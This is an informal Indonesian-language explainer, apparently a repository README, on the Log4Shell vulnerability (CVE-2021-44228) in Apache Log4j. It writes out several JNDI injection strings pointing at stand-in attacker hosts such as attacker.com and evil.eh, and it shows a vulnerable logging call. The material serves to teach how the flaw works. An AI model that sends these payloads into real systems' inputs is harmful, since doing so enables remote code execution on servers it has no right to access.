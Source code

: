 # Apa itu Log4Shell?
Gini ya...
Ada satu *library logging di Java* yang namanya *Log4j*. Nah, si Log4j ini biasa dipakai buat **nyatet semua hal yang kejadian di aplikasi**, mulai dari login, error, sampe input user.

Masalahnya...
Ternyata dia terlalu “pinter” sampe *bisa eksekusi kode dari luar* kalo inputnya kayak gini:
`${jndi:ldap://evil.eh/boom}`

 ## *Kok bisa jadi celah?*
*Nah ini dia!*

 Si Log4j tuh ngira `${jndi:ldap://...}` itu format "lookup" buat nyari data dari server lain.
* Tapi karena dia *auto-fetch dan auto-execute* class Java dari luar,
  ya lu tinggal taro *class* berisi payload berbahaya, boom... **remote code execution** (RCE) dapet!

> Lo ngetik doang di input? Server langsung nurut & jalanin kode lo. GG ga tuh.

## Gimana Cara Kerjanya?
Singkatnya, Log4Shell itu memanfaatkan fitur "lookup" di Log4j yang bisa nge-parse `${}` (placeholder gitu). Nah, attacker bisa masukin string kayak gini ke log:
`${jndi:ldap://attacker.com/Exploit}`

Log4j bakal ngelakuin JNDI lookup dan nyambung ke server attacker, lalu jalanin Java class berbahaya dari luar! Boom, RCE (Remote Code Execution) langsung terjadi
### contoh eksploitasi
Misalnya sebuah aplikasi log aktivitas user input:

```
logger.info("User input: " + input);

```
Jika seseorang mengisi input seperti ini:
`${jndi:ldap://attacker.com/a}`

Log4j secara otomatis akan:
1.Menafsirkan `${jndi:...}` sebagai instruksi JNDI.

2.Menghubungi attacker.com.

3.Menjalankan payload Java yang dikembalikan dari server penyerang.

Hasilnya: Penyerang bisa menjalankan kode arbitrer (Remote Code Execution - RCE) di server korban.

## Btw...
Log4Shell itu nama panggilan buat celah keamanan yang super berbahaya di Apache Log4j, salah satu library logging paling terkenal sejagat Java. Versi yang kena itu Log4j 2.0 sampai 2.14.1.

Celah ini resmi dikasih kode CVE-2021-44228, dan pertama kali heboh sekitar Desember 2021. Kayak bom waktu, banyak sistem Java di seluruh dunia langsung panik karena celah ini gampang banget dieksploitasi
